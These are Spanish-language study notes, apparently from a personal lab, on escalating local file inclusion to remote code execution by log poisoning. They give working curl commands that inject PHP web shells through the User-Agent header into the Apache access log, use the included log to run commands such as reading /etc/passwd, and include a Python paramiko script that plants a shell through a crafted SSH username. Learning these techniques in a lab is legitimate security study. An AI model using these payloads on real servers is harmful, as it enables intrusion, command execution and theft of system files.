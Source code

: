 LFI -> RCE

view-source:http://localhost/index.php?filename=/var/log/apache2/access.log
ES EL LOG QUE CADA TIEMPO CAMBIA
![[Pasted image 20250328230919.png]]En este archivo esta evidenciando user agent de la peticion que se hace

Enviamos una peticion por get modificando la cabecera de user agent 
![[Pasted image 20250328231146.png]]
Lo enviamos y aparecera lo siguiente:
![[Pasted image 20250328231256.png]]

Incluso se puede injectar comandos php de la siguiente manera:
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system('whoami'); ?>"

Si se logra injectar se tensa
![[Pasted image 20250328231503.png]]
En este caso vemos que si se puedo ejecutar comandos


Ahora probemos ejecutando este codigo 
$ curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php phpinfo(); ?>"  
Esto arrojara la informacion de la siguiente manera
Se suele cargar esto para ver si hay opciones o funciones deshabilitadas
esto lo vemos en http://localhost/index.php?filename=/var/log/apache2/access.log
![[Pasted image 20250328231846.png]]

ahora inyectamos esto
curl -s -X GET "http://localhost/probando" -H "User-Agent: <?php system(\$_GET['cmd']); ?>"
aparecera asi:
![[Pasted image 20250328232632.png]]
pero hacemos lo siguiente en la barra de busqueda:
view-source:http://localhost/index.php?filename=/var/log/apache2/access.log&cmd=id

con &cmd=id habilitamos la ejecucion de comandos en la barra de busqueda por lo tanto aparecera asi en la pagina web

Aqui ejecutamos un cat /etc/passwd y aparece asi
![[Pasted image 20250328232843.png]]

En eso consiste el log posioning



AHORA CONTAMINAREMOS UN LOG DE SSH
![[Pasted image 20250328233059.png]]
Aqui ingresamos primero a la ruta  /var/log
para ssh es el btmp
desde nuestra consola intenamos conectarnos a ssh con contraseña incorrecta y por lo tanto se generara un log en automatico

para poder acceder a btmp y ejecutar un comando php podemos crear un script en python con el siguiente contenido
`import paramiko`

# `Configuración de la víctima`
`TARGET_IP = "x.x.x.x"  # Reemplazar con la IP del contenedor Docker`
`LOG_PATH = "/var/www/html/auth.log"  # Debe ser accesible desde el navegador`

# `Payload PHP para ejecución remota de comandos`
`PAYLOAD = "hacker'; echo '<?php system($_GET[\'cmd\']); ?>' >> " + LOG_PATH + "; '"`

# `Configurar cliente SSH`
`ssh = paramiko.SSHClient()`
`ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())`

`try:`
    `# Intentamos autenticarnos con el usuario malicioso para inyectar el payload en los logs`
    `ssh.connect(TARGET_IP, username=PAYLOAD, password="incorrecto")`
`except Exception as e:`
    `print("Conexión fallida (esperado):", str(e))`


Si var/log/btmp tiene permisos de lectura podemos desde la misma url acceder de la siguiente manera:
![[Pasted image 20250328235414.png]]

de esa manera se contaminan logs
Incluso por smtp
Hay muchas maneras y variantes aliados con filter chain y enumerar logs poder contaminarlos 

